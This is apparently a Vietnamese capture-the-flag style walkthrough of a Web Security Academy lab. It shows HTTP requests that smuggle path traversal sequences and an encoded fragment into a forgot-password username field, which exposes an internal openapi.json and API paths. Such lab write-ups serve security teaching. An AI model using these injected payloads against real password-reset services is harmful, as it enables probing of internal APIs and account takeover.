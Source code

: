 ```http
POST /forgot-password HTTP/2
Host: 0a50006f044669348183125b000800ba.web-security-academy.net
...
csrf=iDgI1pUQjJwdvw0Lav08NcfdE7dCC5Kj&username=administrator
```

```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 49

{"type":"email","result":"*****@normal-user.net"}
```
- Ta thấy nó trả về **email**
- Thử thay đổi **request** thành 

```http
POST /forgot-password HTTP/2
Host: 0a50006f044669348183125b000800ba.web-security-academy.net
...
csrf=iDgI1pUQjJwdvw0Lav08NcfdE7dCC5Kj&username=administrator../../administrator
```
- Kết quả trả về như ban đầu => **Path Traversal**
- Sử dụng **max path traversal**

```http
POST /forgot-password HTTP/2
Host: 0a50006f044669348183125b000800ba.web-security-academy.net
...
csrf=iDgI1pUQjJwdvw0Lav08NcfdE7dCC5Kj&username=administrator../../../../../../
```

```json
{
  "error": "Unexpected response from API server:\n<html>\n<head>\n    <meta charset=\"UTF-8\">\n    <title>Not Found<\/title>\n<\/head>\n<body>\n    <h1>Not found<\/h1>\n    <p>The URL that you requested was not found.<\/p>\n<\/body>\n<\/html>\n"
}
```

- Tìm đến file **openapi.json** để hiểu được cấu trúc **api**

```http
POST /forgot-password HTTP/2
Host: 0a50006f044669348183125b000800ba.web-security-academy.net
...
csrf=iDgI1pUQjJwdvw0Lav08NcfdE7dCC5Kj&username=administrator../../../../../../openapi.json%23
```

```json
{
  "error": "Unexpected response from API server:\n{\n  \"openapi\": \"3.0.0\",\n  \"info\": {\n    \"title\": \"User API\",\n    \"version\": \"2.0.0\"\n  },\n  \"paths\": {\n    \"/api/internal/v1/users/{username}/field/{field}\": {\n      \"get\": {\n        \"tags\": [\n          \"users\"\n        ],\n        \"summary\": \"Find user by username\",\n        \"description\": \"API Version 1\",\n        \"parameters\": [\n          {\n            \"name\": \"username\",\n            \"in\": \"path\",\n            \"description\": \"Username\",\n            \"required\": true,\n            \"schema\": {\n        ..."
}
```
- Sử dụng **fragment (#)** để bỏ qua **param** phía sau để tránh lỗi
- Cấu trúc **api** `/api/internal/v1/users/{username}/field/{field}`
